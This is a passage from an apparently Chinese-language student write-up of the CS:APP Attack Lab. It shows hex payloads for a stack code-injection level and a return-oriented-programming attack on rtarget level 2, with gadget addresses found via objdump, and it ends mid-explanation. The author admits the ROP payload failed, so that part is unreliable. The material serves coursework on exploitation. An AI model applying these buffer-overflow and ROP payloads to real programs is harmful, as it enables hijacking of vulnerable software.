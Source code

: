 ```
48 c7 c7 a8 dc 61 55 68 
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 
35 39 62 39 39 37 66 61 
00
```

注意最后一位要`00` 填充，因为字符串是要到`00`才结束的，如果不是那么就会一直进行下去。

## rtarget

### level2

这个官方的`writeup`已经明确说了，栈只读，因此得采取`rop`的方式取攻击执行`touch2()`。

我们使用`objdump -d rtarget`去查看代码碎片看看哪里可以利用。首先我们想的应该是，`movq $0x59b997fa,%rdi`

```assembly
pushq $0x4017ec
retq
```

但是发现你根本找不到`movq $0x59b997fa,%rdi`，所以这个方法略掉。

那还有`plan B`：在栈上`rsp`里面装入那个数然后`popq`弹到`rdi`里面就好了，那么我们想的就是，

```assembly
popq %rdi
pushq $0x4017ec
retq
```

我们搜索一下`popq %rdi `的字节码`5f`，发现`0x40233a`有一个5f的

那就很容易构造`payload`了

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
3a 23 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
ec 17 40 00 00 00 00 00
```

![attacklab_rtarget_level2_1.png](https://i.loli.net/2021/04/26/kCrAciSvRxqJgWs.png)

事实上这里我是没有攻击成功的，我觉得从逻辑上来讲是没有任何问题的，有大佬看到蒟蒻的小错误恳请帮忙指正。那么正确的做法是先把它pop到rax寄存器里面，然后执行`movq %rax,%rdi`然后再`ret touch3()`？？？到底有啥区别嘛，还是搞不懂。。

那么代码就是:
